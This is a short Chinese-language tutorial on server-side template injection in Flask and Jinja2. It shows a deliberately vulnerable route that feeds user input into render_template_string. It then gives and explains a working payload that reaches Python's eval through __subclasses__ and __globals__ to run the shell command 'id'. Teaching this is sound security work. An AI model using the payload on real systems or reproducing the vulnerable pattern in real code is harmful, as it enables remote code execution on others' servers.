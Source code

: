 # 环境搭建
- Windows 10
- python3
- flask
- jinja2

# 测试代码
```
from flask import Flask, render_template, render_template_string

app = Flask(__name__)  
 
@app.route("/user/<name>")
def user(name):
    template = '''
    <h3>%s</h3>
    '''%(name)
    return render_template_string(template)

if __name__ == "__main__":  
    app.run() 

```
就是把url user后面的name输出出来
> 注意这里面如果使用render_template带入html模板的话就不会产生这个问题，将html模板通过`{%% extends "layout.html" %%}`引入到python中也会出现这个问题

# 常见payload解析
常见的payload的思路都常常是利用python内置的变量属性等出发·通过调用一些隐藏的属性（方法）从而实现代码输入

```
# 命令执行
{% for c in [].__class__.__base__.__subclasses__() %}
	{% if c.__name__=='catch_warnings' %}
		{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}
	{% endif %}
{% endfor %}
```
- 首先这个使用了一个循环和if的jinja2的结构找到了一个内置的类catch_warnings，
- 然后通过一个特殊的属性`__globals__`找到了当前类下的所有变量
`__globals__` *这个属性是python所有函数都包含的一个属性，调用这个属性会返回所在模块命名空间里面的所有变量*

